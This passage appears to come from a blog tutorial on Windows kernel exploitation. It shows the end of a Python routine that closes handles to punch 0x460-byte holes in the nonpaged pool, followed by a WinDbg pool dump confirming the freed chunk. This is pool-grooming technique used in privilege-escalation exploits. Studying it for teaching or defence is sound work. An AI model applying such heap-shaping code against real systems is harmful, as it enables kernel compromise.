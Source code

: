                     pass

            # make sure it's contiguously allocated memory
            if len(tuple(bin)) == 14:
                holes.append(tuple(bin))

    # make the holes to fill
    for hole in holes:
        for handle in hole:
            kernel32.CloseHandle(handle)
{% endhighlight %}

<p class="cn">Now, when we run the freeing function, we punch holes into the pool and get a freed chunk of our target size.</p>

{% highlight text %}
kd> !pool 8674e000
Pool page 8674e000 region is Nonpaged pool
*8674e000 size:  460 previous size:    0  (Free)      *Io                       <-- 0x460 chunk is free
    Pooltag Io   : general IO allocations, Binary : nt!io
 8674e460 size:   60 previous size:  460  (Allocated)  IoCo (Protected)
 8674e4c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e500 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e560 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e5a0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e600 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e640 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e6a0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e6e0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e740 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e780 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e7e0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e820 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e880 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e8c0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e920 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e960 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e9c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ea00 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ea60 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674eaa0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674eb00 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674eb40 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674eba0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ebe0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ec40 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ec80 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ece0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ed20 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ed80 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674edc0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ee20 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ee60 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674eec0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ef00 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ef60 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674efa0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
{% endhighlight %}
